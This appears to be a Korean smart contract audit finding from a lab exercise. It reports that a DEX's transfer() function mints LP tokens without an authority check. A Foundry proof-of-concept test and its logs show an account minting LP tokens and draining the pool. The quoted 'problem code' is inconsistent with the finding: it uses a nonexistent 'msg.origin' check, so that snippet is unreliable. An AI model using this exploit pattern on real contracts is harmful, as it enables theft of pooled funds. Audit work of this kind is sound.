 ## 2. No authority check for LP mint

### 설명

문제 코드: Dex.sol line106

transfer() 함수가 LP토큰을 mint해주는 중요한 역할을 하는 함수임에도 불구하고 권한 체크를 해주지 않았다. 따라서 누구나 접근 가능하며, 원하는 만큼의 LP토큰을 발행하고 그만큼 유동성 풀에 공급된 토큰을 탈취할 수 있다.

```java
function transfer(address to, uint256 lpAmount) public override(ERC20, IDex) returns (bool) {
  require(msg.origin == address(this), "you are not authorized");
  _mint(to, lpAmount);
  return true;
}
```

### 파급력

Critical

- 산정 이유
    - 누구든 접근할 수 있으며, 피해 규모 또한 크기 때문에 Critical을 부여했다.
- 공격 시나리오
    - tester1이 유동성 공급을 전혀 하지 않은 상태에서 transfer() 함수를 통해 LP토큰을 자신에게 민팅하였고, 그 토큰을 이용해 유동성 풀에 공급된 전체 토큰을 탈취하였다.
    
    ```jsx
    function testTransfer() external {
      uint firstLPReturn = dex.addLiquidity(10000 ether, 10000 ether, 0);
      emit log_named_uint("firstLPReturn", firstLPReturn);
    
      address tester1 = vm.addr(1);
      uint tester1_balanceX_before = tokenX.balanceOf(tester1);
      uint tester1_balanceY_before = tokenY.balanceOf(tester1);
      emit log_named_uint("tester1's token X balance", tester1_balanceX_before);
      emit log_named_uint("tester1's token Y balance", tester1_balanceY_before);
      vm.startPrank(tester1);
          // vm.expectRevert("you are not authorized for LP mint.");
          dex.transfer(tester1, 10000 ether);
          dex.removeLiquidity(10000 ether, 1 ether, 1 ether);
          uint tester1_balanceX = tokenX.balanceOf(tester1);
          uint tester1_balanceY = tokenY.balanceOf(tester1);
          emit log_named_uint("tester1's token X balance", tester1_balanceX);
          emit log_named_uint("tester1's token Y balance", tester1_balanceY);
      vm.stopPrank();
    }
    ```
    
    ```jsx
    [PASS] testTransfer() (gas: 285355)
    Logs:
      firstLPReturn: 10000000000000000000
      tester1's token X balance: 0
      tester1's token Y balance: 0
      tester1's token X balance: 9990009990009990009990
      tester1's token Y balance: 9990009990009990009990
    ```
    